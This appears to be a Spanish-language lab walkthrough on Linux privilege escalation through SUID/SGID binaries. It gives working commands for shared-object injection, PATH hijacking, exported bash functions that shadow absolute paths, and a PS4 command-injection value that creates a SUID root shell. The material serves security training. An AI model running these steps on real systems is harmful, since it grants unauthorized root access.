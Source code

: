 # SUID/SGID

## Executables Known Exploit

Encuentra todos los ejecutables SUID/SGID en la máquina virtual Debian: bash

find / -type f -a ( -perm -u+s -o -perm -g+s ) -exec ls -l {} ; 2> /dev/null

## Executables Shared Object Injection

El ejecutable SUID /usr/local/bin/suid-so es vulnerable a la inyección de objeto compartido.

Primero, ejecuta el archivo y toma nota de que actualmente muestra una barra de progreso antes de salir:

```bash
/usr/local/bin/suid-so
```

Ejecuta strace en el archivo y busca en la salida las llamadas a open/access y los errores de "no existe tal archivo":

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Observa que el ejecutable intenta cargar el objeto compartido /home/user/.config/libcalc.so dentro de nuestro directorio personal, pero no puede encontrarlo.

Crea el directorio .config para el archivo libcalc.so:

```bash
mkdir /home/user/.config
```

El código de objeto compartido de ejemplo se puede encontrar en /home/user/tools/suid/libcalc.c. Simplemente genera una shell de Bash. Compila el código en un objeto compartido en la ubicación donde el ejecutable suid-so estaba buscando:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Ejecuta nuevamente el ejecutable suid-so y toma nota de que esta vez, en lugar de una barra de progreso, obtenemos una shell de root.

```bash
/usr/local/bin/suid-so
```

## Executables Environment Variables

El ejecutable SUID /usr/local/bin/suid-env puede ser explotado debido a que hereda la variable de entorno PATH del usuario e intenta ejecutar programas sin especificar una ruta absoluta.

Primero, ejecuta el archivo y observa que parece estar intentando iniciar el servidor web apache2:

```bash
/usr/local/bin/suid-env
```

Ejecuta el comando strings en el archivo para buscar cadenas de caracteres imprimibles:

```bash
strings /usr/local/bin/suid-env
```

Una línea ("service apache2 start") sugiere que el ejecutable service está siendo llamado para iniciar el servidor web, sin embargo, no se está utilizando la ruta completa del ejecutable (/usr/sbin/service).

Compila el código ubicado en /home/user/tools/suid/service.c en un ejecutable llamado service. Este código simplemente genera una shell de Bash:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Antepón el directorio actual (o donde se encuentre el nuevo ejecutable service) a la variable de entorno PATH, y ejecuta el ejecutable suid-env para obtener una shell de root:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

## Executables Abusing Shell Features

El ejecutable /usr/local/bin/suid-env2 es idéntico a /usr/local/bin/suid-env, excepto que utiliza la ruta absoluta del ejecutable service (/usr/sbin/service) para iniciar el servidor web apache2.

Verifica esto con el comando strings:

```bash
strings /usr/local/bin/suid-env2
```

En las versiones de Bash <4.2-048, es posible definir funciones de shell con nombres que se asemejan a rutas de archivo, luego exportar esas funciones para que se utilicen en lugar de cualquier ejecutable real en esa ruta de archivo.

Verifica la versión de Bash instalada en la máquina virtual Debian y asegúrate de que sea inferior a 4.2-048:

```bash
/bin/bash --version
```

Crea una función de Bash con el nombre "/usr/sbin/service" que ejecute una nueva shell de Bash (usando -p para que se conserven los permisos) y exporta la función:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Ejecuta el ejecutable suid-env2 para obtener una shell de root:

```bash
/usr/local/bin/suid-env2
```

Nota: Esto no funcionará en versiones de Bash 4.4 y superiores.

Cuando está en modo de depuración, Bash utiliza la variable de entorno PS4 para mostrar un indicador adicional para declaraciones de depuración.

Ejecuta el ejecutable /usr/local/bin/suid-env2 con la depuración de bash habilitada y la variable PS4 establecida en un comando incrustado que crea una versión SUID de /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Ejecuta el ejecutable /tmp/rootbash con -p para obtener una shell que se ejecuta con privilegios de root:

```bash
/tmp/rootbash -p
```

Recuerda eliminar el ejecutable /tmp/rootbash y salir de la shell elevada antes de continuar, ya que crearás este archivo nuevamente más adelante en la sala:

```bash
rm /tmp/rootbash
exit
```

